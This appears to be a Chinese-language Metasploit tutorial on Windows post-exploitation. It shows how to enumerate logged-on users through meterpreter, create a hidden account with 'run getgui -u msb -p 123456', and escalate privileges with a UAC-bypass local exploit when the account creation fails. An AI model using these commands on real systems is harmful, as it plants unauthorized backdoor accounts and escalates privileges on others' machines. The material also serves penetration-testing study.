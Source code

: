 一、环境准备

1 MSF-Metasploit Framework

2 一台获取到meterpreter的靶机

二、实际操作

1、先看下目标靶机已存在用户  meterpreter中输入：run post/windows/gather/enum_logged_on_users

![1643108073546](22 后渗透之创建账户（Windows）.assets/1643108073546.png) 

2、使用getgui创建 一个用户名为 msb  密码为 123456  的账户

run getgui -u msb -p 123456

run getgui -u {用户名}-p {密码}

进入win的运行输入netplwiz 可以查看账户创建情况

![1643108092979](22 后渗透之创建账户（Windows）.assets/1643108092979.png)

[-] Insufficient privileges, account was not be created. 看到这个提示就需要先提权（获取到system）

2.1 绕过UAC提权

use exploit/windows/local/*ask*